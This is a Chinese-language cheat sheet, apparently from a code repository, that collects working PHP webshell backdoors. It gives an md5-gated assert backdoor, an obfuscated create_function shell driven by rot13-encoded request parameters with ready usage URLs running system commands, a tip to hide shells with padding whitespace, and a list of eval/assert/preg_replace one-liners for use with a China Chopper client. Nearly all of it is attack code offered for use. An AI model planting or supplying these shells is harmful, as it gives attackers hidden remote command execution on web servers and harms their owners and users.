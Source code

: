 ```php
<?php
md5($_GET['qid'])=='ba710ce1a217e63bf9f5ac483d2e9a6f'?array_map("as\x73ert",(array)$_REQUEST['page']):next;
?>

array array_map ( callable $callback , array $array1 [, array $... ] )
array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。
 
使用：
?qid=moushenhao
post/get: page
```

<font color=#f00>为了迷惑敌人，可以在shell中加入大量空格、换行！！</font>

```php
<?php
$dI3h=${'_REQUEST'}; if (!empty($dI3h['PBbs'])) {     $lwA = $dI3h['UpB_'];    $SdlT=$dI3h['PBbs']($lwA($dI3h['PWWk']),$lwA($dI3h['xfrwA']));    $SdlT($lwA($dI3h['Epd']));   }
?>

知识点：
${'xxx'},其实代表的就是$xxx，其指代的是一个变量
上面的构造有很多种，但是最容易发现的就是create_function

使用：
?PBbs=create_function&UpB_=str_rot13&PWWk=$a&xfrwA=riny($a);&Epd=flfgrz(yf);
每次只需要更改Epd字段的内容即可，对于要输入的字段，每次都是需要rot13的。
  
其实也可以让其看起来简单点：trim/ltrim/rtrim/strtolower/strtoupper
?PBbs=create_function&UpB_=trim&PWWk=$n&xfrwA=eval($n);&Epd=system(ls);
```

```php
### php一句话

* <?php eval($_POST[sb]);?>
* <?php @eval($_POST[sb]);?>
* <?php assert($_POST[sb]);?>
* <?$_POST['sa']($_POST['sb']);?>
* <?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
* <?php @preg_replace("/[email]/e",$_POST['h'],"error"); ?>
　 //使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入
　 <O>h=@eval($_POST[c]);</O>
* <script language="php">@eval($_POST[sb])</script>
* $filename=$_GET['xbid'];
   include ($filename);
* <?php $c='ass'.'ert';${c}($_POST[4]);?>
* <?php $k = str_replace("8","","a8s88s8e8r88t");$k($_POST["8"]); ?>
```

当然，后门还有很多很多种，php小马、大马都值得我们学习，但是只需要学学就可以了，不必专注于此！！！